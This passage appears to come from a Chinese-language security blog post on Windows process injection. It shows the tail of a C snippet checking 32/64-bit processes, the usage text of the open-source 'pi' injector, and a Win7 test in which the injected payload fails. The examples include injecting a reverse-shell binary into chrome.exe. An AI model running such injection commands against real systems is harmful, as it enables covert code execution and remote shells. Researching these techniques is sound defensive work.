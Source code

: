 ```
            "Notice", MB_ICONINFORMATION | MB_OK);  
        return 0;  
    }  
    bWow64 = IsWow64(hTargetProcess);

    if(bWow64)
        printf("32-bit process\n");
    else
        printf("64-bit process\n");
}
```

### 5、开源工程pi

**下载地址：**

https://github.com/odzhan/shellcode/tree/master/win/pi

```
usage: pi [options] <proc name | proc id>

       -d          Wait after memory allocation before running thread
       -e <cmd>    Execute command in context of remote process (shows window)
       -f <file>   Load a PIC file into remote process
       -l <dll>    Load a DLL file into remote process
       -p          List available processes on system
       -x <cpu>    Exclude process running in cpu mode, 32 or 64
```

 

```
examples:

    pi -e "cmd /c echo this is a test > test.txt & notepad test.txt" -x32 iexplore.exe
    pi -l ws2_32.dll notepad.exe
    pi -f reverse_shell.bin chrome.exe
```


**测试系统：**

Win7x64

**cmd执行：**

`pi32.exe -e "cmd /c start calc.exe" -x32 calc.exe`

上述命令将对64位的calc.exe进行注入

回显如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-2-10/2-2.png)


payload没有成功执行


